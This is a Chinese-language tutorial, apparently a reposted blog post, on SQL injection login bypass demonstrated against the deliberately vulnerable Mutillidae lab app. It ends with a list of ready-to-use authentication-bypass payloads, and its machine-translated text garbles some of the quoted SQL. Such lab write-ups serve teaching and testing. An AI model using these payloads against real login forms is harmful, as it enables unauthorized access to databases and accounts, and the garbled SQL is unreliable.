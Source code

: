 
--- 
title:  SQL注入漏洞利用 
tags: []
categories: [] 

---
#### 0x00前言

SQL注入是一种注入攻击，可以执行恶意SQL语句。这些语句控制Web应用程序后面的数据库服务器。攻击者可以利用SQL 注入漏洞规避应用程序安全性方面的努力。他们可以绕过页面或Web应用程序的身份验证和授权，并恢复整个SQL数据库的内容。他们同样可以利用SQL注入来包含，更改和擦除数据库中的记录。SQL注入漏洞可能会影响使用SQL数据库的任何站点或Web应用程序，例如MySQL，Oracle，MSSQL或其他。攻击者可能会利用它来增加对您的敏感信息，客户数据，商业秘密，许可创新的未经许可的访问，而这仅仅是冰山一角。

而由于sql注入漏洞得利用有些广泛，因此我们将无法提及SQL注入的所有细节，而是从基础知识开始对其中的一些内容进行说明。为此，我们将使用metasploitable的Mutillidae Web应用程序，该Web应用程序仅出于演示目的容易受到SQL 注入攻击。 <img src="https://img-blog.csdnimg.cn/20200810174052196.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 选择“ Mutillidae”链接，然后转到“登录/注册”选项卡并注册以创建一个帐户。

<img src="https://img-blog.csdnimg.cn/20200810174105891.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

提供必要的信息，然后单击“创建帐户”按钮。 <img src="https://img-blog.csdnimg.cn/20200810174116443.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

现在，让我们使用一些SQL注入技术来绕过登录页面，本教程介绍了攻击者可以用来破坏登录表单的不同方法。

#### 0x01 在POST字段中发现SQL注入

我们将在示例中使用的登录结构非常简单。它包含两个易受攻击的输入字段（用户名和密码）。后端内容创建查询以批准客户端提供的用户名和密钥。以下是页面基本原理的概述：

$ query =“SELECT * FROM users where where username =’$ _ POST [username]‘AND password =’$_POST[password]’”;

为了避开登录和访问受限区域，攻击者需要构建一个SQL部分，该部分将更改“ WHERE”子句并将其设为true。例如，随附的登录数据将通过滥用password参数中存在的弱点来提供对攻击者的访问权限。对于用户名，请输入“ john.doe”或“ anything”，对于密码，请输入“ anything” or“ 1” =‘1）或（admin（or’1’='1），然后尝试登录，然后您将显示一个管理员登录页面。 <img src="https://img-blog.csdnimg.cn/20200810174130971.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> <img src="https://img-blog.csdnimg.cn/20200810174145845.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L20wXzQ4NTIwNTA4,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

让我们看一下生成的查询：

SELECT * FROM users，其中username ='john.doe’AND password =‘anything’or’1’=‘1’ 由于操作员的优先权，“and”条件将首先评估。

然后评估“ OR”运算符，使“ WHERE”语句为真。该条件对“users”表的所有行均有效。这意味着将忽略给定的用户名，并且攻击者将以“users”表中的主要用户身份登录。此外，这意味着攻击者无需知道用户名即可访问框架。查询将为他发现一个！

在这些简单的示例中，我们已经看到入侵者可以回避使用SQL注入的身份验证系统。在不限制可能造成的灾难性后果的情况下，必须提到的是，SQL注入比登录绕过具有更大的安全影响。以下是OWASP成员Emin Islam Tatlilf博士创建的命令列表，这些命令可用于SQL注入身份验证旁路。

```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin’--
admin’ #
admin’/*
admin’ or ‘1’=’1
admin’ or ‘1’=’1'--
admin’ or ‘1’=’1'#
admin’ or ‘1’=’1'/*
admin’or 1=1 or ‘’=’
admin’ or 1=1
admin’ or 1=1--
admin’ or 1=1#
admin’ or 1=1/*
admin’) or (‘1’=’1
admin’) or (‘1’=’1'--
admin’) or (‘1’=’1'#
admin’) or (‘1’=’1'/*
admin’) or ‘1’=’1
admin’) or ‘1’=’1'--
admin’) or ‘1’=’1'#
admin’) or ‘1’=’1'/*
1234 ‘ AND 1=0 UNION ALL SELECT ‘admin’, ‘81dc9bdb52d04dc20036dbd8313ed055
admin" --
```